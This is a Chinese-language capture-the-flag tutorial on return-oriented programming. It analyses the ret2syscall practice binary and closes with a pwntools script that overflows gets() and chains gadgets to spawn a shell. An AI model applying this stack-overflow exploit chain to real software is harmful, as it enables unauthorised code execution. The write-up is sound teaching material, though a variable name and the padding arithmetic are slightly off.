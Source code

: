 ```yaml
---
layout:     post
title:      pwn学习（三）：利用ROP执行恶意代码
subtitle:   利用栈溢出获取控制权
date:       2021-06-10
author:     Hongtai S
header-img: img/7.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 栈溢出
    - pwn
    - ROP
---
```

# 利用ROP执行恶意代码 #

## Return Oriented Programming(ROP)-面向返回编程 ##

以下一段汇编代码：

mov eax, 0xb

mov ebx, ["/bin/sh"]

mov ecx, 0

mov edx, 0

int 0x80

等价于C代码execve("/bin/sh", NULL, NULL)，将其转换为二进制数据可作为shellcode使用，但是当进程中开启了栈不可执行保护，将无法执行shellcode。而ROP技术可以绕过这机制：

面向返回编程（英语：Return-Oriented Programming，缩写：ROP）是计算机安全漏洞利用技术，该技术允许攻击者在安全防御的情况下执行代码，如不可执行的内存和代码签名。

在栈中若想执行获取shell的命令，但是无法通过代码注入的方式获取，可将获取shell的汇编代码分散开执行，每一小段命令称为gadget。以上面的汇编代码为例，ROP技术是这样执行获取shell的：

任然是利用栈溢出的方式，而覆盖栈的数据不是二进制的命令，而是地址和数据。想要执行mov eav, 0xb命令，可以将栈的返回地址覆盖为内存中任意一个 pop eax；ret的命令的地址，并将返回地址的下一地址继续覆盖位为0x0000000b，此时程序的执行流被劫持并且执行了与mov eax, 0xb的命令，继续覆盖，下一个指令为mov ebx, ["/bin/sh"]，只需在程序中寻找pop ebx；ret命令的地址，用这一地址覆盖栈，并用存放"/bin/sh"的地址覆盖栈的下一地址，那么此时程序成功执行了mov ebx, ["/bin/sh"]这一指令，下面的指令同理。

栈溢出前后的布局如下所示：

|覆盖前|覆盖后|
|返回地址|pop eax；ret的地址|
|正常数据|0xb|
|正常数据|pop ebx；ret的地址|
|正常数据|"/bin/sh"的地址|
|正常数据|pop ecx；ret的地址|
|正常数据|0x0|
|正常数据|pop edx；ret的地址|
|正常数据|0x0|
|正常数据|int 0x80的地址|

溢出后的栈就会控制程序执行流，最终得到系统的shell

## ret2syscall题目分析 ##

将文件ret2syscall拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/09/oyPBv3q4lwt7rga.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

使用checksec查看文件详细情况：

![2.PNG](https://i.loli.net/2021/08/09/gUHAcvQxueJXhLr.png)

可以看到栈不可执行，使用ROPgadget查找可利用的gadget，找到了pop eax；ret和pop ebx；ret，但是没有找到pop ecx；ret，但是找到了pop edx ; pop ecx ; pop ebx ; ret命令，同样可以用这个命令地址覆盖栈，产生与mov ebx, ["/bin/sh"];mov ecx, 0;mov edx, 0相同的效果。最后查找int 0x80。全部指令找到。

![3.PNG](https://i.loli.net/2021/08/09/72agMvnOV5Q1xP6.png)

![4.PNG](https://i.loli.net/2021/08/09/aVHLm4bMDAZ7t3z.png)

![5.PNG](https://i.loli.net/2021/08/09/WelxQCo4bTD61ft.png)

另外，还缺少字符串"/bin/sh"的地址，在Ida中使用shift+F12查找，发现了字符串的地址：

![6.PNG](https://i.loli.net/2021/08/09/VCgt6U12niwqfWK.png)

到这里，利用ROP技术获取shell所需的全部数据和地址都已准备好，此时可以精心构造payload，理论上栈的布局前后为：

|覆盖前|覆盖后|
|返回地址|pop eax；ret的地址|
|正常数据|0xb|
|正常数据|pop edx ; pop ecx ; pop ebx ; ret的地址|
|正常数据|0x0|
|正常数据|0x0|
|正常数据|"/bin/sh"的地址|
|正常数据|int 0x80的地址|

这里注意命令pop edx ; pop ecx ; pop ebx ; ret寄存器的先后顺序，按照命令的顺序赋值给寄存器数据。

覆盖到返回地址之前，需要填充部分无用数据，这里使用gdb调试内存栈，查看输入的字符串首地址距离返回地址的距离：

![7.PNG](https://i.loli.net/2021/08/09/UIZfDXsMvp96E5w.png)

计算距离为0xa8-0x3c = 108

payload的内容为'A' * 112 + [pop eax；ret的地址] + p32(0x0000000b) + [pop edx ; pop ecx ; pop ebx ; ret的地址] + p32(0x00000000) + p32(0x00000000) + ["/bin/sh"的地址] + [int 0x80的地址]


## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2syscall")

#接受程序的两行打印
io.recvline()
io.recvline()

pop_eax_ret_addr = p32(0x080bb196)

pop_edx_ecx_edx_ret_addr = p32(0x0806eb90)

str_addr = p32(0x080be408)

int_0x80_addr = p32(0x08049421)

#构造payload
payload = b'A' * 112 + pop_eax_ret_addr + p32(0x0000000b) + pop_edx_ecx_edx_ret_addr + p32(0x00000000) + p32(0x00000000) + str_addr + int_0x80_addr

#发送构造的数据
io.sendline(payload)

#获取shell交互
io.interactive()

```

运行脚本成功获取shell权限

![8.PNG](https://i.loli.net/2021/08/09/yrVbCptjYPUzudA.png)
